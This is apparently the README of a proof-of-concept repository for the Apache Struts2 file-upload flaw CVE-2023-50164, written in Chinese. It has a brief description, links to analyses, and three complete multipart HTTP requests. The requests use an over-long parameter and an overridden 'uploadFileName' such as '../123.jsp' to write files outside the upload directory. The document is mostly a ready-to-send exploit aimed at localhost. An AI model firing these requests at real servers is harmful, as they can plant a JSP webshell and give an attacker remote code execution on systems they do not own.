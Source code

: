 ## Apache Struts2 CVE-2023-50164

漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；

## 漏洞复现分析
- https://trganda.github.io/articles/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
  
## poc
```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
 
 
{{randstr(4097,4097)}}
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--
```


```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";
 
../../poc.txt
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--

```

```
POST /untitled4_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------299952630938737678921373326300
Upgrade-Insecure-Requests: 1
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Sec-Fetch-Mode: navigate
Origin: http://localhost:8080
Sec-Fetch-Dest: document
Cookie: JSESSIONID=4519C8974359B23EE133A5CEA707D7D0; USER_NAME_COOKIE=admin; SID_1=69cf26c6
Referer: http://localhost:8080/untitled4_war_exploded/
Content-Length: 63765

-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="Upload"; filename="12.txt"
Content-Type: image/png

111
-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../123.jsp
-----------------------------299952630938737678921373326300--
```
![image](https://github.com/wy876/POC/assets/139549762/afd588e7-f552-46bf-a2de-6c568d0fc1a2)

- https://blog.csdn.net/qq_18193739/article/details/134935865
  
